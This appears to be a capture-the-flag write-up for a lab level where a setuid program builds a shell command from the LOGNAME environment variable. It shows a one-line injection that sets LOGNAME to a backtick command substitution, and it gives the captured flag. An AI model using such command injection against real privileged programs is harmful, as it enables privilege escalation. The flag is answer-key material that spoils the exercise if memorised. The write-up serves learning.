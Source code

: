 # Exploit a vulnerability in an ENV variable

On this level, as in the sticky bits level, this executable has special rights and you guessed it, the owner is the **flag07**.

This program uses :

**`getenv(”LOGNAME”);`**
**`asprintf(allocated string, /bin/echo %s, getenv(”LOGNAME”));`**
**`system(”/bin/echo level07”);`**

![enter image description here](https://i.imgur.com/5Nn8uWs.png)

![enter image description here](https://i.imgur.com/0h4K2OP.png)

We just need to put the **`getflag`** command in an environment variable and run **`./level07`** so that **`getflag`** runs after the echo.

```bash
export LOGNAME=\`getflag\`
```

> Flag : `fiumuikeil55xe9cu4dood66h`
